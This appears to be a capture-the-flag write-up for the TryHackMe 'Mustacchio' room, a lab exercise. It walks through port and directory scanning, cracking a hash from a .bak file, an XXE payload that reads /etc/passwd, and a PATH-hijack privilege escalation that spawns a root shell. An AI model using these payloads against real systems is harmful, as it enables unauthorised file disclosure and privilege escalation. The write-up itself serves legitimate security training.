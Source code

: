 ```yaml
---
layout: post
title: Mustacchio — Tryhackme (Writeup)
date: 2025-07-06
categories: [TRYHACKME-WRITEUPS]
tag: [cybersecurity, writeups,TRYHACKME]
---
```


& [BlueCoder](https://tryhackme.com/p/blueCoder) Writeup to the

[Mustacchio Tryhackme challenge](https://tryhackme.com/room/mustacchio)


Deploy and compromise the machine! ☠️

## Scanning & Enumeration

![nmap-scan](/images/Tryhackme-Mustacchio/nmap-scan.jpg)

```console
rustscan -a ipv4
```

![dir-enum](/images/Tryhackme-Mustacchio/dir-enum.jpg)

```console
gobuster dir -u http://ip_addr/example -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x.html,.css,.js
```

A .bak file is a backup file and  .bak files can be very interesting because they often contain credentials or hidden info.

![dir-enum2](/images/Tryhackme-Mustacchio/dir-enum2.jpg)

## Exploitation

![exploit-bak](/images/Tryhackme-Mustacchio/exploit-bak.jpg)


## Hash Cracking

![hash-cracking](/images/Tryhackme-Mustacchio/hash-cracking.jpg)

```console
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## Post-Exploitation

```console
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<root>
<name>anonymous</name>
<author>&xxe;</author>

</root>
```

![xxe-exploit](/images/Tryhackme-Mustacchio/xxe.jpg)



![RSA-PRIVATE-KEY](/images/Tryhackme-Mustacchio/RSA.jpg)

Credential Cracking

![credential-cracking](/images/Tryhackme-Mustacchio/cred-cracking.jpg)

# Privilege Escalation

![SUID-bits](/images/Tryhackme-Mustacchio/suidbits.jpg)

```console
cd /home/barry
touch tail
```
```console
┌──(hunt3r㉿HUNT3R)-[~]
└─$ cat > tail      
#!/usr/bin/python3
__import__("pty").spawn("/bin/bash")
```
```console
┌──(hunt3r㉿HUNT3R)-[~]
└─$ chmod a+x tail 
```


What is the root flag?

![root](/images/Tryhackme-Mustacchio/root-flag.jpg)